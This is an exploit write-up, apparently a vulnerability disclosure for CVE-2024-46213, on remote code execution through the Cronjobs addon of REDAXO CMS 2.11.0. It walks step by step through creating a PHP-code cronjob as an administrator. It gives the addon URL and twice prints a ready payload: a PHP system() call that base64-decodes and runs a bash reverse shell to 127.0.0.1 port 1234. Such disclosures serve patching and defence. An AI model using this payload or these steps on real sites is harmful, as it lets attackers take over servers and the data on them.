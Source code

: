 # REDAXO Cronjobs AddOns RCE

## Basic Info

- **Exploit Title:** REDAXO Cronjobs AddOns RCE
- **Exploit Author:** L7dia
- **Vendor Homepage:** https://redaxo.org/
- **Software Link:** https://github.com/redaxo/redaxo
- **Version:** 2.11.0
- **Tested on:** Ubuntu20.04/PHP8.2
- **Payload:** `<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>`
- **CVE:** CVE-2024-46213

## Description

REDAXO CMS allows attackers to execution evil php code in Cronjobs Addon. Attackers can set any php code without verified as cronjob to achieve their evil purpose, even get shell.

## Proof of Concept

1. Log in as an administrator
2. Navigate to the AddOns-Cronjobs page(If not present, can install it by Main menu-AddOns)
3. Create a new cronjob, set "Type" to "PHP-Code", and set "PHP-Code" to evil PHP code, such as remote code execution.
4. (Optional) Set "Environment" to "Backend", can execute cronjobs mannually.
5. Save the cronjob, wait for automatic execution or execute it mannually. And then attackers can get shell or achieve other evil purpose.

![image-20240827112702567](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750587.png)

![image-20240827112715931](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750519.png)

```
http://127.0.0.1/redaxo/redaxo/index.php?page=cronjob/cronjobs&func=add&list=cronjobs
```

![image-20240827112917694](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750567.png)

```
<?php system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx|base64 -d|bash -i')?>
```

![image-20240827112938919](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750553.png)

![image-20240827113004575](https://l7dia-images.oss-cn-hangzhou.aliyuncs.com/images/202410161750486.png)



